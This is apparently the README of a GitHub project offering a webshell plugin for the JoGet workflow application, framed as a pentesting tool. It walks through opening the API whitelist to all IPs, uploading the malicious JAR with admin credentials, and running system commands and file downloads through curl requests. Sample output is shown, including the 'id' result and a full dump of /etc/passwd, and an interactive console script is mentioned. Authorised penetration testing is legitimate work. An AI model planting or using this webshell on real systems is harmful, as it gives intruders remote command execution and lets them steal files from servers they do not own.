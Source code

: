 # JoGet webshell plugin for RCE

<p align="center">
  A webshell plugin and interactive shell for pentesting JoGet application.
  <br>
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/JoGet-plugin-webshell">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <br>
</p>

## Features

 - [x] Webshell plugin for JoGet.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the JoGet instance.

### Step 1: Whitelist your IP in the API

First of all, you will need to whitelist your IP in the API (or put `*` to match every source IP). This will allow you to perform requests on the `/jw/web/json` endpoint.

 - **API Domain Whitelist**: `*`
 - **API IP Whitelist**: `*`

![](./.github/ip_whitelist_api.png)

### Step 2: Upload the webshell plugin

Go to "Manage plugins" page, at http://127.0.0.1:8000/jw/web/console/setting/plugin, and click on "Upload plugin":

![](./.github/manage_plugins_interface.png)

Then choose the JAR file of the webshell plugin and click on "Upload":

![](./.github/upload_a_plugin.png)

### Step 3.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=exec&cmd=id"
{"stdout":"uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat),0(root),27(sudo)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 3.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1000:1000::/home/tomcat:/bin/sh
```

### Step 4: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/158264654-df612180-9de5-4b5b-b3a2-ad22ae05b889.mp4

## Development

If you need to compile this plugin, you can use the docker image provided in the [dev_env](./dev_env) folder. It recreates the [Joget Workflow Open Source](https://dev.joget.org/community/display/KBv6/Joget+Workflow+Open+Source) build environnement to build plugins.

Then if you need to test the plugin locally, you can start a JoGet instance with the official docker image like this:

```
docker run -d -p 8000:8080 --rm docker.io/jogetworkflow/joget-community
```

Don't forget to check `docker logs -f <container_id>` to see logs of the running JoGet instance. This is really useful for debugging, especially if you encounter a "[Missing requirement error while importing a plugin](./docs/Missing-requirement-error-while-importing-a-plugin.md)".

## References

 - https://dev.joget.org/community/display/KBv6/Guideline+for+developing+a+plugin

 - https://dev.joget.org/community/display/KBv6/Web+Service+Plugin

 - https://dev.joget.org/community/display/KBv4/Implement+Web+Service+or+Servlet+with+Plugin
 

 - **Useful links for debugging module import**
    + https://thecarlhall.wordpress.com/2012/01/19/understanding-the-unresolved-constraint-missing-resource-message-from-apache-felix/
    + https://thecarlhall.wordpress.com/2012/07/11/understanding-the-unresolved-constraint-missing-requirement-message-from-apache-felix-pt-2/ 
